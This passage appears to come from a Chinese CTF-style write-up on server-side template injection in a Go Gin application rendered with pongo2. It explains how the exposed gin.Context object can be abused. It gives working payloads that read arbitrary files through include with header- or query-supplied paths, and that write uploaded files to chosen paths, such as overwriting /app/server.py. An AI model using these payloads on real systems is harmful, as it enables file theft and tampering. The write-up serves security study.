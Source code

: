 从代码中可以看到，我们把`c *gin.Context`传送给模板引擎，所以在 ssti 时可以使用`c *gin.Context`这一变量。

参考文档：

[https://github.com/flosch/pongo2](https://github.com/flosch/pongo2)

[https://pkg.go.dev/github.com/gin-gonic/gin](https://pkg.go.dev/github.com/gin-gonic/gin)

[https://django.readthedocs.io/en/1.7.x/topics/templates.html](https://django.readthedocs.io/en/1.7.x/topics/templates.html)

[https://www.kancloud.cn/shuangdeyu/gin\_book/949420](https://www.kancloud.cn/shuangdeyu/gin_book/949420)

以及这篇博客

[https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7](https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7)

go 只允许访问传入对象下的属性和方法，那么就可以从 c \*gin.context 入手

> **`c *gin.Context`的使用**
> 
> [https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index](https://pkg.go.dev/github.com/gin-gonic/gin#pkg-index)
> 
> 因此可以得到，文件读取的 payload：
> 
> ```plain
> {%include c.Request.Referer()%} #通过请求头的 Referer
>  {%include c.Request.Host()%} #通过请求头的 Host
>  {%include c.Query(c.ClientIP())%} #通过？ip\_add=/app/server.py 读取
> ```
> 
> 写文件的 payload
> 
> ```plain
> {{c.SaveUploadedFile(c.FormFile(c.Request.Host),c.Request.Referer())}}
>  
>  {%set form=c.Query(c.HandlerName|first)%}
>  {{c.SaveUploadedFile(c.FormFile(form),c.Request.Referer())}}&m=file
>  
>  {%set form=c.Query(c.HandlerName|first)%}{%set path=c.Query(c.HandlerName|last)%}{%set file=c.FormFile(form)%}{{c.SaveUploadedFile(file,path)}}&m=file&n=/app/server.py
> ```
> 
> 这三个 payload 其实大同小异，只是后两个使用了过滤器（c.HandlerName 的值为 main/route.Admin）

并且 go 的 template 只允许调用 1 个返回值，或者 2 个返回值并且第二个返回值为 error 类型的函数 形如 a(res) 或者 a(res,err)  
看 gin.Context 下的几个不需要传参的函数，这里几个函数都能拿到字符串，然后将字符串放在请求参数上面可以获取任意字符串

> 源码：[https://github.com/gin-gonic/gin/blob/master/context.go](https://github.com/gin-gonic/gin/blob/master/context.go)

```plain
总结
func (c *Context) HandlerName() string {
    return nameOfFunction(c.handlers.Last())
}
// 结果：main/route.Admin，可以得到 m,n
func (c *Context) FullPath() string {
    return c.fullPath
}
// 这个结果为/admin，first 之后是'/'，与传参冲突
func (c *Context) ClientIP() string {}
// 结果：10.0.0.1，首尾字符串结果一样，不采用
func (c *Context) RemoteIP() string {}
// 同上
func (c *Context) ContentType() string{}
```